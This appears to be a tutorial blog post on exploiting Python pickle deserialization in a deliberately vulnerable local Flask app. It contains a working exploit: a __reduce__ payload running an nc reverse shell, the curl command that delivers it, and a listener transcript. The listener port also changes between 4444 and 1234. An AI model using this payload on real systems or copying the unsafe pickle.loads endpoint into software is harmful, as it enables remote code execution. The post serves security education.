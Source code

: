# Python: Exploiting de-serialization to achieve RCE

The [`pickle` module](https://docs.python.org/3/library/pickle.html) implements binary protocols for serializing and de-serializing a Python object structure.

The documentation for `pickle` module comes with red box of warning:

> Warning The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

In this post, I will try to demonstrate how remote code executation can be achieved by exploiting `pickle` on a flask based web application.

## Setup basic flask application

- Create virtual env

```
python3 -m venv venv
source venv/bin/activate

pip install flask
```

- Create app.py

```
from flask import Flask, request
import base64
import pickle

app = Flask(__name__)

@app.route('/pickler', methods=["POST"])
def pickler():
    data = base64.urlsafe_b64decode(request.form['pickled'])
    deserialized_data = pickle.loads(data)
    return ''
```

- Run the app

```
export FLASK_APP=app.py
flask run
```

## Create payload for the RCE

```
# exploit.py

import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

By implementing `__reduce__` in a class whose instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

The code executed will create a reverse shell back to our localhost at port 4444

Let's generate the payload by running above code:

```
python exploit.py
Y3Bvc2l4CnN5c3RlbQpwMAooUydybSA...
```

## Exploit

```
# create a listner
nc -nvvl 4444

# send payload
curl -d "pickled=Y3Bvc2l4CnN5c3RlbQpwMAooUydybSA..." http://127.0.0.1:5000/pickler

# watch the listner for connection

nc -nvvvl 1234
sh: no job control in this shell
sh-3.2$ id
uid=501(raj3shp)
```

